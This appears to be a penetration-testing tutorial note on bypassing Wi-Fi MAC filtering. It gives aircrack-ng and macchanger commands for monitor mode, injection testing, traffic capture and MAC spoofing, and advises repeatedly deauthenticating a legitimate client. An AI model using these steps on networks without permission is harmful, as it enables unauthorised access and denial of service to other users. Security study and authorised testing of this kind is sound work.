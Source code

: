 # MAC filtering bypass
MAC filtering involves allowing only devices with specific MAC (Media Access Control) addresses to connect to the network. This process typically involves MAC address spoofing, where an attacker changes their device's MAC address to match an allowed device, thereby gaining access to the network. 

We might have the right password, but there might be MAC filtering going on that will disallow us from connecting to the network. To bypass the MAC filtering, we can spoof our MAC address to match one of the connected clients. However, this approach often leads to collision events, as two devices with the same MAC address cannot coexist on the same network simultaneously. However, one device can connect to the 2.4GHz frequency, and another device with the same MAC address can connect to the 5GHz.

To connect to the same frequency, forcibly disconnect the legitimate client via deatuh, thereby freeing up the MAC address for use, then connect with spoofed IP.

### NOTE
Occasionally, when configuring our MAC address to match that of a client or access point, we may encounter collision events at the data-link layer. This technique of bypassing MAC filtering is most effective when the client we're mimicking is not currently connected to our target network. However, there are instances where these collision events become advantageous to us, serving as a means of denial-of-service (DOS) attack. In the case of a dual-band or multiple access point network, we may be able to utilize a MAC address of a client connected to a separate access point within the same wireless infrastructure.

---

## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
airmon-ng check kill
```
Start monitor mode:
```
airmon-ng start wlan1
```
Run a test:
```
aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
airodump-ng wlan1mon --band agp -w dump
```

---

See MAC address
```
sudo macchanger wlan1mon
```
What is on 2.4? 5? Hidden Networks? What's clients are connected to what APs?
Change MAC address:
```
sudo ifconfig wlan1mon down
```
```
sudo macchanger wlan1 -m 3E:48:72:B7:62:2A
```
```
sudo ifconfig wlan1mon up
```
Check changes made:
```
sudo macchanger wlan1mon
```
OR:
```
ifconfig wlan1
```
Then attempt to connect to AP via GUI or CLI and verify connection with:
```
ifconfig
```
Remember 2 devices can't connect to the same network with the same MAC address so either:
- Perpetually deauth legit client to free up space however it's most effective when the client we're mimicking is not currently connected to our target network at all.
- Connect to the other frequency the device isn't connected to on the network (5 or 2.4)


